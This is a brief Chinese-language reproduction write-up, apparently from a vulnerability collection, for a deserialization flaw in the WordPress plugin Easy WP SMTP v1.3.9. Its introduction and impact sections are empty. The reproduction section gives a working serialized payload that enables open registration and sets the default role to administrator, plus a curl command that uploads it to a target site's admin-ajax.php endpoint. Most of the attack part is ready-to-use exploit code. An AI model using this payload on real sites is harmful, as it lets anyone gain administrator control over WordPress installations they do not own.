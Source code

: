 # WordPress Plugin - Easy WP SMTP 反序列化漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp_import_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users_can_register）并将用户默认角色（default_role）设置为数据库中的“管理员”。

1.创建一个文件名“ /tmp/upload.txt”，并添加以下内容：


```json
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}
```

2.上传文件


```bash
$ curl https://url/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'
```

![](images/15894210447857.png)
